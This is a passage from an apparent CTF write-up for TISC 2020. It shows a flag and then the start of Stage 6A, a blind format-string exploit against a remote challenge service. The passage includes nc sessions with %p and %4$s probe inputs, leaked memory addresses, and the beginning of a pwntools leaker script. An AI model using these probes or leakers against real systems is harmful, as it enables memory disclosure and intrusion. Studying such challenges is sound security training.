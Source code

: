 **Flag:** `TISC20{m4ngl3d_b4ngl3d_wr4ngl3d}`

## Stage 6A: Blind Boss Battle

![Stage 6A Description]({{ site.url }}{{ site.baseurl }}/assets/images/tisc-2020/C1155E1376648BF91A2D1E53F31268E6.jpg){: .align-center}

**Solution**

When connecting to the service, a format string vulnerability is apparent:

```console
nc fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg 42000
Welcome to Anoroc Riga Server

  Key-Value Storage Service

==============================

Number of users pwned today: 5908
Function Not Yet Implemented
AAAA
AAAA
%p %p %p %p %p %p %p
0x7fe685d08a03 (nil) 0x7fe685d08980 0x55f90fc8d0a0 (nil) 0x7fff2fc20690 0x55f90fc8a2e0
```

However, there is a caveat to exploiting this. The fourth parameter (`0x55f90fc8d0a0` in the above
run), appears to be an address in the `.bss` segment of the binary. The fourth parameter turns out
to be where the format string is stored:

```console
nc fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg 42000
Welcome to Anoroc Riga Server

  Key-Value Storage Service

==============================

Number of users pwned today: 5908
Function Not Yet Implemented
XXXX %4$s YYYY
XXXX XXXX %4$s YYYY YYYY
```

This is a complication because controlling an arbitrary address for reading and writing is no longer
as trivial as specifying it in the format string itself.

To achieve the goal of dumping the binary, we need a means of specifiying arbitrary addresses to
read from. In an effort to help us do this, we can write a leaker script to dump out as much output
as we can.

```python
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'
context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    total = prefix + payload
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recv()
```
